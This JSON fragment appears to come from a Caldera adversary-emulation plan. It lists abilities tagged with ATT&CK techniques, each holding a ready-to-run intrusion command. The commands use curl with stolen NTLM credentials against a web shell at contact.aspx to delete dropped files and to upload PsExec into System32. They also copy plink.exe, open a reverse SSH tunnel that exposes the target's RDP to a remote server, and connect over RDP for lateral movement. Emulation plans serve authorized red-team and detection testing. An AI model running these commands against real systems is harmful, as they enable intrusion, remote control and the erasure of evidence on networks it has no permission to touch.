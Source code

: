 ```json
    {
      "ability_id": "6482ba12-fa47-409c-bab8-704de6475e38",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST --data \"pro=cmd.exe\" --data \"cmd=del C:\\windows\\temp\\01.txt C:\\windows\\temp\\m64.exe\" https://#{second.target.ip}/EWS/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Indicator Removal on Host: File Deletion",
      "attack_id": "T1070.004"
    },
    {
      "ability_id": "f3df5a83-2a5a-4277-8763-8fb51032d3fc",
      "platform": "windows",
      "commands": {
        "cmd": "copy  C:\\Users\\#{initial.target.user}\\AppData\\Local\\SystemFailureReporter\\plink.exe C:\\Users\\Public\\Downloads\\plink.exe\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "212995b5-acfc-404b-b3a9-a19cc0afa9a5",
      "platform": "windows",
      "commands": {
        "proc": "exec-background C:\\Users\\Public\\Downloads\\plink.exe -no-antispoof -ssh -N -R #{caldera.server.ip}:13389:#{second.target.ip}:3389 -l #{caldera.user.name} -pw \"#{caldera.user.password}\" #{caldera.server.ip}\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Protocol Tunneling",
      "attack_id": "T1572"
    },
    {
      "ability_id": "dc2efbdd-3ab4-44a0-9839-385540b8a8cc",
      "platform": "linux",
      "commands": {
        "proc": "exec-background xfreerdp /u:'#{network.domain.name}\\#{initial.target.user}' /p:'#{initial.target.password}' /v:localhost:13389 /cert-ignore\n"
      },
      "privilege": "Unknown",
      "tactic": "lateral-movement",
      "technique": "Remote Services: Remote Desktop Protocol",
      "attack_id": "T1021.001"
    },
    {
      "ability_id": "5cb977ae-87c8-450f-b016-f414b42ba60f",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST -F \"upl=f1\" -F 'sav=C:\\Windows\\System32' -F \"vir=false\" -F \"nen=ps.exe\" -F 'f1=@PsExec.exe' https://#{second.target.host}/ews/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
```